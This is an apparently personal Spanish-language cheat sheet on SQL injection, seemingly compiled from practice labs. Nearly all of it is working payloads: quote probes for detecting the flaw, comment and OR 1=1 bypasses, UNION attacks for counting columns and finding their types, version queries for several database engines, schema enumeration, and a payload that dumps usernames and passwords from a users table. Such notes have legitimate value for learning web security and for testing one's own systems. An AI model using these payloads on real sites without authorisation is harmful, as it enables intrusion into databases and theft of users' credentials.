 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

PRE-REQ: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

METODO_1: ' ORDER BY 1-- \
METODO_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft / MySQL / PostgreSQL] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- \
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

> NOTA: revisar cual es la estructura del "information_schema" por motor.

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"




